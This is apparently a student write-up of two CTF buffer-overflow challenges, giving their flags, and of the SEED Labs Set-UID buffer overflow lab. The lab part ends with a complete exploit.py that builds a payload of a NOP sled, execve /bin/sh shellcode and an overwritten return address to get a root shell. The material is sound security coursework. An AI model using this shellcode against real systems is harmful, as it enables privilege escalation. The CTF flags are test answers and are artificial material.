 # CTF

## Challenge 1

### Recon

- We identified the security properties of the given program, with the help of the `checksec` tool.
- There was no canary protecting the return address and the stack has execution permission.

### Vulnerability

The program read a file (`mem.txt`), and in order to get the flag we needed to change which file the program read. The path to the file was kept in the variable `meme_file`. The only moment in the execution of the program in which the user intervenes is when he gets to give a text input, that will be kept in a 20 byte buffer.

We understood the vulnerability would be connected to said buffer, and could be exploited by creating a buffer overflow. If we wrote more than 20 characters a buffer overflow would occur. We knew we could wirte on the stack and change other variables and we knew `meme_file` was next to the `buffer` on the stack. So in order to access `flag.txt` we sent as the input something like "[20 characters to fill the buffer]flag.txt". This changed the variable `meme_file` to "flag.txt" and we found the flag - `flag{8df95b4dbd7681ec6e6688826ae6fd12}`.

## Challenge 2

### Recon

- Just like before, we identified the security properties of the given program, with the help of the `checksec` tool.
- There was no canary protecting the return address and the stack has execution permission, once again.

### Vulnerability

The difference this time in the program, was a new variable, `val`, an array of 4 characters. The program would only open the text file if the condition `*(long*)val == 0xfefc2122` was met.

We identified the same opportunity to create a buffer overflow, except this time the variables were in the following order in the stack: `buffer`->`val`->`meme_file`. So we used the Python script to send the input "[20 characters to fill the buffer][0x22][0x21][0xfc][0xfe]flag.txt". This way the condition was met and we changed the variable `meme_file` to "flag.txt", just like in the first challenge. Doing this we found the flag - `flag{031964c904407b7f31a925abe31d5d1f}`.

# SEED Labs

## Buffer Overflow Attack Lab (Set-UID Version)

### Task 1: Getting Familiar with Shellcode

- We were able to understand the shellcode and run the generated 32 bit binary that executed the shellcode.
- A shell was launched when executing the binary, as expected.

### Task 2: Understanding the Vulnerable Program

- We understood how the program had a buffer overflow vulnerability, since it was copying a 517 bytes buffer to a 100 bytes one. This opens the possibility to get a root shell.
- By using the `make` command, we compiled the vulnerable program with flags for turning off StackGuard and the non-executable stack protections and set it as a root owned Set-UID program.

### Task 3: Launching Attack on 32-bit Program (Level 1)

To find the difference between the buffer's starting and the place where the return address is stored, we created a file named 'badfile' and launched gdb on the vulnerable program, registering the ebp and buffer address (`0xffffca48` and `0xffffc9dc`, respectively) after function `bof` is called. By calculating the difference between the addresses, we find that these are 108 bytes apart.

Next, we needed to generate the contents of the 'badfile' with the shellcode and a precisely placed return address that would overwrite the `bof`'s function return address in the stack and lead the program to run the shellcode. For that, by using the provided `exploit.py` file, we crated a 'badfile' of 517 bytes (the size of the `str` buffer) filled with NOP instructions (0x90) and the shellcode at the end. Since the ebp address was 108 bytes away from the starting address of the buffer, and the return address comes before ebp, we placed a return address on byte 112 (108 + address size of 4 bytes) of the 'badfile'. This return address was the buffer address plus 300, which would give us an address of one of the NOP instructions. By doing that, the program would return from the `bof` function to a NOP sled, that would lead it to run the shellcode. By running the program we successfully got a shell.

This was the resulting `exploit.py` file:

```python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode) - 1 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffc9dc + 300
offset = 112

L = 4     # 32-bit address size
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

